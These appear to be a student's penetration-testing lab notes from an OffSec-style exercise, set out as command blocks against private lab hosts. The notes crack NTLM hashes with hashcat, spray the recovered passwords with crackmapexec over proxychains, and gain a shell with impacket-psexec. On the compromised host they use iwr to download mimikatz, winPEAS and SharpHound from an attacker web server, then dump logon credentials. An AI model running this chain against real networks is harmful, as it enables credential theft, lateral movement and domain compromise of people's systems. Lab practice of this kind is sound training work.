 found NTLM for wario - fdf36048c1cf88f5630381c5e38feb8e
found password - Mushroom!
```
hashcat -m 1000 wario.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

hashcat -m 1000 daisy.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Spray passwords
```
sudo proxychains -q nmap -sT -Pn -p 445 172.16.249.11
proxychains crackmapexec smb 172.16.249.10-14 172.16.249.82-83 -u wario -p 'Mushroom!' --continue-on-success
```

Find yoshi's password by spraying existing passwords
- yoshi is a user on all machines, admin on 82
```
proxychains crackmapexec smb 172.16.249.10-14 172.16.249.82-83 -u yoshi -p passwords --continue-on-success

proxychains crackmapexec smb 172.16.249.10-14 172.16.249.82-83 -u yoshi -p Mushroom! --continue-on-success
```

yoshi is admin on CLIENT01- 172.16.249.82
```
proxychains impacket-psexec yoshi:Mushroom\!@172.16.249.82
```

```
iwr -uri http://192.168.45.242:8000/mimikatz.exe -Outfile mimikatz.exe
. .\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

iwr -uri http://192.168.45.242:8000/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe

iwr -uri http://192.168.45.242:8000/SharpHound.ps1 -Outfile SharpHound.ps1
powershell -ep bypass
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All
```

Got password for offsec user - lab, no admin on any box
```
hashcat -m 1000 offsec.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

proxychains crackmapexec smb 172.16.249.10-14 172.16.249.82-83 -u offsec -p 'lab' --continue-on-success
```
